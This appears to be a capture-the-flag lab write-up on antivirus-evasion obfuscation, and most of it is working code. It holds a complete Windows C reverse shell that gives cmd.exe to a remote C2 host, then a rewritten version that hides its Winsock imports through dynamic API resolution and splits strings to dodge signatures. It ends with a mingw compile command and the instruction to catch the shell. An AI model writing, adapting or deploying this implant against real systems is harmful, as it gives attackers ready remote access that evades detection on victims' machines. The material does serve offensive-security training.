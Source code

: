 # Real world challenge

No one method will be 100% effective or reliable. To create a more effective and reliable methodology, combine 
the methods.

* When determining in what order to begin obfuscation, consider the impact of each method. For example, is it easier 
to obfuscate an already broken class or is it easier to break a class that is obfuscated?
* In general, run automated obfuscation or less specific obfuscation methods after specific signature breaking.

## Lab

```text
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```

Modify the binary to meet these specifications:

* No suspicious library calls present
* No leaked function or variable names
* File hash is different from the original hash
* Binary bypasses common anti-virus engines

It is also essential to change the C2Server and C2Port variables in the provided payload or this challenge will not 
properly work, and you will not receive a shell back. 

## Obfuscation order

* Rewrite `int WSAAPI WSAConnect` to meet the requirements of a structure definition.
  * Import the `LoadLibraryW` library the calls are stored in.
  * Obtain the pointer to the address.
  * Change all occurrences of the API call with the new pointer.
* Define all pointer addresses needed, corresponding to the structures.
* The structure definitions outside any function at the beginning of the code. 
* The pointer definitions at the top of the `RunShell` function

## Obfuscated code

```text
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024


typedef int(WSAAPI* WSASTARTUP)(WORD wVersionRequested,LPWSADATA lpWSAData);
typedef SOCKET(WSAAPI* WSASOCKETA)(int af,int type,int protocol,LPWSAPROTOCOL_INFOA lpProtocolInfo,GROUP g,DWORD dwFlags);
typedef unsigned(WSAAPI* INET_ADDR)(const char *cp);
typedef u_short(WSAAPI* HTONS)(u_short hostshort);
typedef int(WSAAPI* WSACONNECT)(SOCKET s,const struct sockaddr *name,int namelen,LPWSABUF lpCallerData,LPWSABUF lpCalleeData,LPQOS lpSQOS,LPQOS lpGQOS);
typedef int(WSAAPI* CLOSESOCKET)(SOCKET s);
typedef int(WSAAPI* WSACLEANUP)(void);

void Run(char* Server, int Port) {

HMODULE hws2_32 = LoadLibraryW(L"ws2_32");
WSASTARTUP myWSAStartup = (WSASTARTUP) GetProcAddress(hws2_32, "WSAStartup");
WSASOCKETA myWSASocketA = (WSASOCKETA) GetProcAddress(hws2_32, "WSASocketA");
INET_ADDR myinet_addr = (INET_ADDR) GetProcAddress(hws2_32, "inet_addr");
HTONS myhtons = (HTONS) GetProcAddress(hws2_32, "htons");
WSACONNECT myWSAConnect = (WSACONNECT) GetProcAddress(hws2_32, "WSAConnect");
CLOSESOCKET myclosesocket = (CLOSESOCKET) GetProcAddress(hws2_32, "closesocket");
WSACLEANUP myWSACleanup = (WSACLEANUP) GetProcAddress(hws2_32, "WSACleanup");

        SOCKET s12;
        struct sockaddr_in addr;
        WSADATA version;
        myWSAStartup(MAKEWORD(2,2), &version);
        s12 = myWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = myinet_addr(Server);
        addr.sin_port = myhtons(Port);

        if (myWSAConnect(s12, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            myclosesocket(s12);
            myWSACleanup();
        } else {


            char P1[] = "cm";
            char P2[] = "d.exe";
            char* P = strcat(P1, P2);

            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) s12;
            CreateProcess(NULL, P, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);


            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        Run(argv[1], port);
    }
    else {
        char host[] = "10.10.50.26";
        int port = 1234;
        Run(host, port);
    }
    return 0;
}
```

Compile the binary using `mingw-gcc`.

    x86_64-w64-mingw32-gcc challenge.c -o challenge.exe -lwsock32 -lws2_32 

Start a listener. Receive shell. Flag is on Administrator's Desktop.
